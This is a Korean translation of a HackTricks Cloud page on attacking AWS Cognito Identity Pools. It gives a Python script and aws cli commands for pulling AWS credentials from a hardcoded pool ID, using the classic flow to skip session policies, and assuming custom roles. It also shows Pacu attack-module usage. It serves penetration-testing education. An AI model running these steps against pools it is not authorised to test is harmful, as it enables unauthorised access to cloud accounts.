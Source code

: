 # Cognito Identity Pools

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong>를 통해 AWS 해킹을 처음부터 전문가까지 배워보세요<strong>!</strong></summary>

HackTricks를 지원하는 다른 방법:

* **회사를 HackTricks에서 광고하거나 HackTricks를 PDF로 다운로드**하려면 [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)를 확인하세요!
* [**공식 PEASS & HackTricks 스웨그**](https://peass.creator-spring.com)를 얻으세요.
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)를 발견하세요. 독점적인 [**NFTs**](https://opensea.io/collection/the-peass-family) 컬렉션입니다.
* 💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 **참여**하거나 **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)를 **팔로우**하세요.
* **HackTricks**와 **HackTricks Cloud** github 저장소에 PR을 제출하여 **해킹 트릭을 공유**하세요.

</details>

## 기본 정보

Identity pools는 사용자가 **임시 자격 증명을 얻을 수 있도록**하는 중요한 역할을 합니다. 이러한 자격 증명은 Amazon S3 및 DynamoDB를 포함한 다양한 AWS 서비스에 액세스하는 데 필수적입니다. Identity pools의 주요 기능 중 하나는 익명의 게스트 사용자와 사용자 인증을 위한 다양한 신원 제공자를 지원한다는 것입니다. 지원되는 신원 제공자는 다음과 같습니다:

- Amazon Cognito 사용자 풀
- Facebook, Google, Amazon 로그인 및 Apple 로그인과 같은 소셜 로그인 옵션
- OpenID Connect (OIDC)를 준수하는 제공자
- SAML (Security Assertion Markup Language) 신원 제공자
- 개발자 인증 신원
```python
# Sample code to demonstrate how to integrate an identity provider with an identity pool can be structured as follows:
import boto3

# Initialize the Amazon Cognito Identity client
client = boto3.client('cognito-identity')

# Assume you have already created an identity pool and obtained the IdentityPoolId
identity_pool_id = 'your-identity-pool-id'

# Add an identity provider to the identity pool
response = client.set_identity_pool_roles(
IdentityPoolId=identity_pool_id,
Roles={
'authenticated': 'arn:aws:iam::AWS_ACCOUNT_ID:role/AuthenticatedRole',
'unauthenticated': 'arn:aws:iam::AWS_ACCOUNT_ID:role/UnauthenticatedRole',
}
)

# Print the response from AWS
print(response)
```
### Cognito Sync

Identity Pool 세션을 생성하려면 먼저 **Identity ID를 생성**해야 합니다. 이 Identity ID는 해당 사용자의 세션을 식별하는 **식별자**입니다. 이 식별자는 최대 20개의 데이터셋을 가질 수 있으며, 각 데이터셋은 최대 1MB의 키-값 쌍을 저장할 수 있습니다.

이는 사용자의 정보를 유지하는 데 **유용**합니다 (항상 동일한 Identity ID를 사용하는 사용자).

또한, 서비스 **cognito-sync**는 이 정보를 **관리하고 동기화**하는 서비스입니다 (데이터셋에서 정보를 보내고 스트림 및 SNS 메시지로 동기화).

### Pentesting을 위한 도구

* [Pacu](https://github.com/RhinoSecurityLabs/pacu), AWS 공격 프레임워크로, 이제 "cognito\_\_enum" 및 "cognito\_\_attack" 모듈을 포함하고 있습니다. 이 모듈들은 계정 내의 모든 Cognito 자산의 열거 및 약한 구성, 액세스 제어에 사용되는 사용자 속성 등을 자동화하며, 수정 가능한 사용자 정의 속성, 사용 가능한 Identity Pool 자격 증명, ID 토큰의 가정 가능한 역할 등을 기반으로 사용자 생성 (MFA 지원 포함) 및 권한 상승도 자동화합니다.

모듈 기능에 대한 설명은 [블로그 게시물](https://rhinosecuritylabs.com/aws/attacking-aws-cognito-with-pacu-p2)의 2부를 참조하십시오. 설치 지침은 [Pacu](https://github.com/RhinoSecurityLabs/pacu) 메인 페이지를 참조하십시오.

#### 사용법

주어진 Identity Pool 및 사용자 풀 클라이언트에 대해 사용자 생성 및 모든 권한 상승 벡터를 시도하는 cognito\_\_attack 사용 예시:
```bash
Pacu (new:test) > run cognito__attack --username randomuser --email XX+sdfs2@gmail.com --identity_pools
us-east-2:a06XXXXX-c9XX-4aXX-9a33-9ceXXXXXXXXX --user_pool_clients
59f6tuhfXXXXXXXXXXXXXXXXXX@us-east-2_0aXXXXXXX
```
현재 AWS 계정에서 볼 수 있는 모든 사용자 풀, 사용자 풀 클라이언트, 신원 풀, 사용자 등을 수집하기 위한 cognito\_\_enum 사용 예시입니다.
```bash
Pacu (new:test) > run cognito__enum
```
* [Cognito Scanner](https://github.com/padok-team/cognito-scanner)은 Cognito에 대한 다양한 공격을 구현하는 파이썬 CLI 도구입니다. 이 도구는 원치 않는 계정 생성 및 Identity Pool 승격을 포함합니다.

#### 설치
```bash
$ pip install cognito-scanner
```
#### 사용법
```bash
$ cognito-scanner --help
```
더 많은 정보는 https://github.com/padok-team/cognito-scanner에서 확인하세요.

## IAM 역할에 접근하기

### 인증되지 않은 사용자

Cognito 앱에서 **AWS 자격 증명을 얻기 위해 공격자가 알아야 할 것은** **Identity Pool ID**뿐입니다. 이 **ID는 웹/모바일 애플리케이션에 하드코딩**되어야 합니다. ID는 다음과 같은 형식입니다: `eu-west-1:098e5341-8364-038d-16de-1865e435da3b` (브루트포스 공격이 불가능합니다).

{% hint style="success" %}
**IAM Cognito 인증되지 않은 역할은** 기본적으로 `Cognito_<Identity Pool 이름>Unauth_Role`로 호출됩니다.
{% endhint %}

Identity Pools ID가 하드코딩되어 있고 인증되지 않은 사용자를 허용한다면, 다음과 같이 AWS 자격 증명을 얻을 수 있습니다:
```python
import requests

region = "us-east-1"
id_pool_id = 'eu-west-1:098e5341-8364-038d-16de-1865e435da3b'
url = f'https://cognito-identity.{region}.amazonaws.com/'
headers = {"X-Amz-Target": "AWSCognitoIdentityService.GetId", "Content-Type": "application/x-amz-json-1.1"}
params = {'IdentityPoolId': id_pool_id}

r = requests.post(url, json=params, headers=headers)
json_resp = r.json()

if not "IdentityId" in json_resp:
print(f"Not valid id: {id_pool_id}")
exit

IdentityId = r.json()["IdentityId"]

params = {'IdentityId': IdentityId}

headers["X-Amz-Target"] = "AWSCognitoIdentityService.GetCredentialsForIdentity"
r = requests.post(url, json=params, headers=headers)

print(r.json())
```
또는 다음 **aws cli 명령어**를 사용할 수 있습니다:
```bash
aws cognito-identity get-id --identity-pool-id <identity_pool_id> --no-sign
aws cognito-identity get-credentials-for-identity --identity-id <identity_id> --no-sign
```
{% hint style="warning" %}
기본적으로 인증되지 않은 cognito 사용자는 정책을 통해 할당되었더라도 어떠한 권한도 가질 수 없습니다. 아래 섹션을 확인하세요.
{% endhint %}

### 향상된 vs 기본 인증 플로우

이전 섹션에서는 **기본 향상된 인증 플로우**를 따랐습니다. 이 플로우는 생성된 IAM 역할 세션에 **제한적인** [**세션 정책**](../../aws-basic-information/#session-policies)을 설정합니다. 이 정책은 세션에 [**이 목록에서 서비스를 사용**](https://docs.aws.amazon.com/cognito/latest/developerguide/iam-roles.html#access-policies-scope-down-services)할 수 있도록 허용합니다(역할이 다른 서비스에 액세스 할 수 있는 경우에도).

그러나, **Identity pool에서 "Basic (Classic) Flow"가 활성화**되어 있다면, 사용자는 해당 플로우를 사용하여 세션을 얻을 수 있으며, 이 세션은 **그 제한적인 세션 정책을 갖지 않을 것**입니다.

{% code overflow="wrap" %}
```bash
# Get auth ID
aws cognito-identity get-id --identity-pool-id <identity_pool_id> --no-sign

# Get login token
aws cognito-identity get-open-id-token --identity-id <identity_id> --no-sign

# Use login token to get IAM session creds
## If you don't know the role_arn use the previous enhanced flow to get it
aws sts assume-role-with-web-identity --role-arn "arn:aws:iam::<acc_id>:role/<role_name>" --role-session-name sessionname --web-identity-token <token> --no-sign
```
{% endcode %}

{% hint style="warning" %}
이 **오류**를 받으면, **기본 플로우가 활성화되지 않았기 때문**입니다.

`An error occurred (InvalidParameterException) when calling the GetOpenIdToken operation: Basic (classic) flow is not enabled, please use enhanced flow.`
{% endhint %}

IAM 자격 증명 세트를 가지고 있다면 [어떤 액세스 권한을 가지고 있는지](../../#whoami) 확인하고 [권한 상승](../../aws-privilege-escalation/)을 시도해야 합니다.

### 인증된 사용자

{% hint style="info" %}
**인증된 사용자**는 아마도 **다른 권한**이 부여될 수 있으므로, **앱 내에서 가입**할 수 있다면 그렇게 해보고 새 자격 증명을 얻으세요.
{% endhint %}

또한 **인증된 사용자가 액세스하는 Identity Pool**에 대해 사용 가능한 **역할**이 있을 수 있습니다.

이를 위해서는 **Identity Provider**에 액세스해야 할 수도 있습니다. 그것이 **Cognito User Pool**인 경우, 기본 동작을 남용하고 **새 사용자를 직접 생성**할 수도 있습니다.

{% hint style="success" %}
**IAM Cognito 인증 역할은** 기본적으로 `Cognito_<Identity Pool name>Auth_Role`로 호출됩니다.
{% endhint %}

어쨌든, **다음 예제**는 이미 **Cognito User Pool**에 로그인한 상태에서 Identity Pool에 액세스하기 위해 사용됩니다 (다른 유형의 Identity Provider도 구성될 수 있음을 잊지 마세요).

<pre class="language-bash"><code class="lang-bash">aws cognito-identity get-id \
--identity-pool-id &#x3C;identity_pool_id> \
--logins cognito-idp.&#x3C;region>.amazonaws.com/&#x3C;YOUR_USER_POOL_ID>=&#x3C;ID_TOKEN>

# 이전 명령 응답에서 identity_id 가져오기
aws cognito-identity get-credentials-for-identity \
--identity-id &#x3C;identity_id> \
--logins cognito-idp.&#x3C;region>.amazonaws.com/&#x3C;YOUR_USER_POOL_ID>=&#x3C;ID_TOKEN>


# IdToken에서 사용자가 액세스하는 역할을 찾을 수 있습니다. 이는 User Pool 그룹으로 인해 발생합니다.
# 특정 역할에 대한 자격 증명을 얻으려면 --custom-role-arn을 사용하세요.
aws cognito-identity get-credentials-for-identity \
--identity-id &#x3C;identity_id> \
<strong>    --custom-role-arn &#x3C;role_arn> \
</strong>    --logins cognito-idp.&#x3C;region>.amazonaws.com/&#x3C;YOUR_USER_POOL_ID>=&#x3C;ID_TOKEN>
</code></pre>

{% hint style="warning" %}
사용자가 로그인하는 **Identity Provider** 또는 사용자에 따라 **다른 IAM 역할을 구성**할 수 있습니다 (클레임을 사용). 따라서 동일한 또는 다른 제공자를 통해 다른 사용자에게 액세스할 수 있다면, **모든 사용자의 IAM 역할에 로그인하고 액세스하는 것이 좋을 수 있습니다**.
{% endhint %}

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong>를 통해 AWS 해킹을 처음부터 전문가까지 배워보세요<strong>!</strong></summary>

HackTricks를 지원하는 다른 방법:

* HackTricks에서 **회사 광고를 보거나 HackTricks를 PDF로 다운로드**하려면 [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)를 확인하세요!
* [**공식 PEASS & HackTricks 스웨그**](https://peass.creator-spring.com)를 얻으세요.
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)를 발견하세요. 독점적인 [**NFT**](https://opensea.io/collection/the-peass-family) 컬렉션입니다.
* 💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 **참여**하거나 **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**를** **팔로우**하세요.
* **HackTricks**와 **HackTricks Cloud** github 저장소에 PR을 제출하여 **자신의 해킹 기법을 공유**하세요.

</details>
